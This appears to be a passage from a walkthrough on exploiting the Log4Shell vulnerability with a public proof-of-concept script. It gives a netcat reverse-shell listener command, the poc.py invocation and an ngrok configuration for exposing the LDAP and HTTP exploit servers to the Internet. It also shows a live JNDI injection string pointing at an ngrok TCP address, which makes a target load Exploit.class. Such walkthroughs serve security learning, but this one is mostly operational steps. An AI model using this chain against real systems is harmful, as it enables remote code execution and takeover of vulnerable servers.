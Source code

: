 
And then run these 2 simultaneously in different sessions:
`nc -lvnp 9001` and `python3 poc.py --userip localhost --webport 8000 --lport 9001`

![Screenshot from 2022-03-25 16-59-03](https://user-images.githubusercontent.com/58442255/160088969-1bd90197-a342-4a6e-8329-e31ed4cf3edb.png)


From here, we can see that the PoC is doing input/output from `localhost`. Unfortunately, `localhost` is not available on the Internet, hence the remote server cannot access the exploit.




A quick search online on exposing localhost to the Internet returns this Stack Overflow post: https://stackoverflow.com/questions/5108483/access-localhost-from-the-internet. This explains how to setup a tunnel for localhost ports.  
Since we're doing it from localhost and a local tunnel, **there is no need to setup a dedicated web server**.  

Out of the 3 services listed, only `ngrok` worked for me. Head to https://ngrok.com/ and create an account (same thing as above, you can use [Firefox Relay](https://relay.firefox.com) if you don't want to reveal your email) 

![Screenshot from 2022-03-25 16-54-35](https://user-images.githubusercontent.com/58442255/160088584-fede8779-1458-4dd6-803b-f2fcf7aa6bf3.png)

(if `ngrok` does not work try `./ngrok` from the directory that you unzipped the file)
Follow Steps 1 and 2. 
For step 3, we need to specify the ports. The web server where exploit class is located is at port 8000, while JNDI/LDAP server is at 1389. For the JNDI/LDAP server, after some testing, I found that we cannot use HTTP. We need to use TCP.  

To open multiple ports at once, you can do this:
From: https://stackoverflow.com/questions/25522360/ngrok-configure-multiple-port-in-same-domain  
Edit `~/.ngrok2/ngrok.yml` and put:
```
authtoken: <YOUR AUTH TOKEN HERE>
tunnels:
  first:
    addr: 1389
    proto: tcp
  second:
    addr: 8000
    proto: http
```
Type `./ngrok start --all ` to create both TCP and HTTP servers.
![Screenshot from 2022-03-25 17-17-29](https://user-images.githubusercontent.com/58442255/160091925-112d5210-4298-4aac-b2ed-395ea890ed73.png)

Once we have that settled, we can replace the URL in the JNDI/LDAP string from `${jndi:ldap://localhost:1389/a}` to `${jndi:ldap://<TCP ADDRESS HERE>/a}`

e.g.
`${jndi:ldap://4.tcp.ngrok.io:15199/a}`

When we paste that in, head to the Python poc.py and you will see something like
```
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
```
